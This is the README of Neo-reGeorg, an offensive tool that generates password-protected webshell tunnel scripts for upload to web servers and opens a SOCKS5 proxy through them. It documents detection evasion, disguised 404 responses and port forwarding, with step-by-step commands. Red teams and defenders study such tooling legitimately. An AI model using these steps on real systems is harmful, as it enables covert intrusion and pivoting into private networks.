 # Neo-reGeorg

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高 tunnel 连接安全性
* 提高可用性，避免特征检测
* 提高传输内容保密性
* 应对更多的网络环境场景

> 此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！


## Version

3.7.0 - [版本修改日志](CHANGELOG.md)



## Features

* 传输内容经过变形 base64 加密，伪装成 base64 编码
* 直接请求响应可定制化 (如伪装的404页面)
* HTTP Headers 的指令随机生成，避免特征检测
* HTTP Headers 可定制化
* 自定义 HTTP 响应码
* 多 URL 随机请求
* 服务端 DNS 解析
* 兼容 python2 / python3
* 服务端环境的高兼容性
* (仅 php) 参考 [pivotnacci](https://github.com/blackarrowsec/pivotnacci) 实现单 Session 创建多 TCP 连接，应对部分负载均衡场景
* aspx/ashx/jsp/jspx 已不再依赖 Session，可在无 Cookie 等恶劣环境正常运行
* (非 php) 支持内网转发，应对负载均衡环境



## Dependencies

* [**requests**] - https://github.com/kennethreitz/requests



## Basic Usage

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp

```

* **Step 2.**
使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   注意，如果你的工具，如 nmap 不支持 socks5 代理设置，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 等




## Advanced Usage

1. 支持生成的服务端，默认直接请求响应指定的页面内容 (如伪装的 404 页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端 WEB，需要设置代理才能访问
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需 Authorization 认证和定制的 Header 或 Cookie
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. 需要分散请求，可上传到多个路径上，如内存马
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

5. 开启内网转发，应对负载均衡
```ruby
$ python neoreg.py -k <you_password> -u <url> -r <redirect_url>
```

6. 使用端口转发功能，非启动 socks5 服务 ( 127.0.0.1:1080 -> ip:port )
```ruby
$ python neoreg.py -k <you_password> -u <url> -t <ip:port>
```

* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]
                     [--max-read-size KB]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      -c CODE, --httpcode CODE
                            Specify HTTP response code. When using -r, it is
                            recommended to <400. (default: 200)
      --read-buff Bytes     Remote read buffer. (default: 513)
      --max-read-size KB    Remote max read size. (default: 512)

# 连接服务端
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI [-r URL] [-t IP:PORT] -k KEY [-l IP] [-p PORT]
                     [-s] [-H LINE] [-c LINE] [-x LINE] [--php-connect-timeout S]
                     [--local-dns] [--read-buff KB] [--read-interval MS]
                     [--write-interval MS] [--max-threads N] [--cut-left N]
                     [--cut-right N] [-v]

    Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
    (debug_all|debug_base64|debug_headers_key|debug_headers_values)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -r URL, --redirect-url URL
                            Intranet forwarding the designated server (only
                            jsp(x))
      -t IP:PORT, --target IP:PORT
                            Network forwarding Target, After setting this
                            parameter, port forwarding will be enabled
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            Proto://host[:port] Use proxy on given port
      --php-connect-timeout S
                            PHP connect timeout.(default: 0.5)
      --local-dns           Use local resolution DNS
      --read-buff KB        Local read buffer, max data to be sent per
                            POST.(default: 7, max: 50)
      --read-interval MS    Read data interval in milliseconds.(default: 300)
      --write-interval MS   Write data interval in milliseconds.(default: 200)
      --max-threads N       Proxy max threads.(default: 1000)
      --cut-left N          Truncate the left side of the response body
      --cut-right N         Truncate the right side of the response body
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```


## Remind

* Mac OSX 上运行 `neoreg.py` 时，高并发请求会出现网络丢包情况，可通过 `ulimit -n 2560` 修改当前 shell 的 "最大文件打开数"



## TODO

 * HTTP body 隐写

 * 传输 Target 隐写

 * 内网转发 https 的验证忽略


## License

GPL 3.0


## Stargazers over time

[![Stargazers over time](https://starchart.cc/L-codes/Neo-reGeorg.svg)](https://starchart.cc/L-codes/Neo-reGeorg)

<img align='right' src="https://profile-counter.glitch.me/neo-regeorg/count.svg" width="200">
